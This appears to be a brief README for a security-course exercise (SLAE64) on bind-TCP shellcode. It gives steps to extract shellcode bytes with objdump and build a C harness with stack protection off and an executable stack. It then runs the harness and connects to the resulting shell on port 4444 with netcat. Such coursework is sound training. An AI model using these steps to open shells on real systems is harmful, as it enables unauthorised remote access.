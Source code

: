 https://securitychops.com/2019/02/02/slae64-assignment-1-shell-bind-tcp-shellcode.html

1. Compile it with **compile.sh**
2. Dump shellcode with **for i in $(objdump -D shell-bind.o |grep "^ " |cut -f2);do echo -n '\x'$i;done;echo**
3. Paste shellcode into shellcode.c
4. compile with: **gcc shellcode.c -o shellcode -fno-stack-protector -z execstack**
5. ./shellcode
6. nc -nv ipaddress-of-host 4444
7. done
